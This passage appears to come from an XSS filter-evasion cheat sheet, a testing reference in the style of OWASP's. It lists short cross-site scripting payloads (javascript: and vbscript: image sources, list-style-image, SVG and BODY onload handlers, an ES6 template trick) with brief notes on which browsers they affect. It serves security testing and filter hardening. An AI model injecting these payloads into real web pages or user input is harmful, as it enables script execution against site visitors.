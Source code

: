 ## IMG Lowsrc

```html
<IMG LOWSRC="javascript:alert('XSS')">
```

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## VBscript in an Image

```html
<IMG SRC='vbscript:msgbox("XSS")'>
```

## Livescript (older versions of Netscape only)

```html
<IMG SRC="livescript:[code]">
```

## SVG Object Tag

```html
<svg/onload=alert('XSS')>
```

## ECMAScript 6

```html
Set.constructor`alert\x28document.domain\x29
```

## BODY Tag

Method doesn't require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign (`onload=` != `onload =`):

```html
<BODY ONLOAD=alert('XSS')>
```

## Event Handlers

It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.
